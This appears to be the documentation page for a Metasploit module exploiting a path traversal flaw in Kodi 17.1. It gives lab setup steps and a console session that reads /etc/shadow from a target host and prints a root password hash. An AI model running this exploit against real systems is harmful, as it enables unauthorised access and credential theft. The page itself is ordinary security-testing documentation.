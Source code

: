 ## Vulnerable Application

This module exploits an arbitrary file disclosure vulnerability in Kodi 17.1.

**Vulnerable Application Installation Steps**

Grab whatever image from [libreelec](https://libreelec.tv/downloads/) if
you're lazy, or [install kodi from scratch](http://kodi.wiki/view/HOW-TO:Install_Kodi_for_Linux).

You'll need a version lower than 17.1.

## Verification Steps

A successful check of the exploit will look like this:

```
msf > use auxiliary/scanner/http/kodi_traversal
msf auxiliary(kodi_traversal) > set RPORT 8080
RPORT => 8080
msf auxiliary(kodi_traversal) > set RHOSTS 192.168.0.31
RHOSTS => 192.168.0.31
msf auxiliary(kodi_traversal) > run

[*] Reading '/etc/shadow'
[+] /etc/shadow stored as '/home/jvoisin/.msf4/loot/20170219214657_default_192.168.0.31_kodi_114009.bin'
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(kodi_traversal) > cat /home/jvoisin/.msf4/loot/20170219214657_default_192.168.0.31_kodi_114009.bin
[*] exec: cat /home/jvoisin/.msf4/loot/20170219214657_default_192.168.0.31_kodi_114009.bin

systemd-network:*:::::::
root:$6$ktSJvEl/p.r7nsR6$.EZhW6/TPiY.7qz.ymYSreJtHcufASE4ykx7osCfBlDXiEKqXoxltsX5fE0mY.494pJOKyuM50QfpLpNKvAPC.:::::::
nobody:*:::::::
dbus:*:::::::
system:*:::::::
sshd:*:::::::
avahi:*:::::::
msf auxiliary(kodi_traversal) > info 

```
